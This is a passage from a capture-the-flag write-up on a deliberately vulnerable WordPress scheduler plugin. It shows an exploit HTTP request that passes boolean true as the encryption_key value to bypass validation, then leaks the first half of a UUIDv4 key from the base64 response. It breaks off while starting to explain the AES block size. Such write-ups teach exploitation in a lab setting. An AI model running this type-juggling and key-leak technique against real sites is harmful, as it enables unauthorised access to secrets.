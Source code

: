 So, to bypass the second validation, we simply use boolean `true` in our JSON attribute `encryption_key`'s value.

With all of these, we can now leak the first 16 characters of the UUIDv4 key by sending the following POST request:

```http
POST /wp-admin/admin-ajax.php?action=patchstack_scheduler_compare HTTP/1.1
Host: 52.77.81.199:9192
Content-Length: 150
Content-Type: application/json;charset=UTF-8

{
    "api_token": "X1xyWiJlgs0uCvEyRwGfNLrTlpFas3mS",
    "encryption_key": true,
    "revision_data": {
        "post_status": "draft"
    }
}
```

Response JSON body data:

```json
{
    "success": true,
    "data": {
        "encrypted_config": "MWEwNDY1YWQtMTFkMy00NG3dDSyMtvZuU+aUR3m+mhbmL97Xms5PKdE68WEwW3Qm54qJ9mGDY4Ar39kDk23WXzu5T7MZ/RKX2bdbRO7jcbp1ALhvPEpVM2LAM0a6y+cnM7bok0/lA2APiaurEdz4eH6xddsf6RQ/AeO9QNCZI/1iQC1rpGJyA40KmhIwl6Vg"
    }
}
```

To get the almost first half the UUIDv4 string, we can slice the first 16 characters in the base64 encoded `encrypted_config`:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Patchstack-Scheduler-Pro)-[2025.02.24|20:37:37(HKT)]
└> php -a
[...]
php > $uuid = base64_decode(substr("MWEwNDY1YWQtMTFkMy00NG3dDSyMtvZuU+aUR3m+mhbmL97Xms5PKdE68WEwW3Qm54qJ9mGDY4Ar39kDk23WXzu5T7MZ/RKX2bdbRO7jcbp1ALhvPEpVM2LAM0a6y+cnM7bok0/lA2APiaurEdz4eH6xddsf6RQ/AeO9QNCZI/1iQC1rpGJyA40KmhIwl6Vg", 0, 22));
php > echo strlen($uuid);
16
php > echo $uuid;
1a0465ad-11d3-44
```

As you can see, the leaked UUIDv4 string is `1a0465ad-11d3-44`!

But here's a question: How can we leak the full UUIDv4 key??

Well, don't forget which encryption algorithm the plugin is using, **AES** with key size 256 bits and CBC mode. Since AES is a **block cipher**, it encrypts and decrypts data in a **fixed block size chunk**. In AES, the block size is always 128 bits. Or **16 bytes** (16 characters).
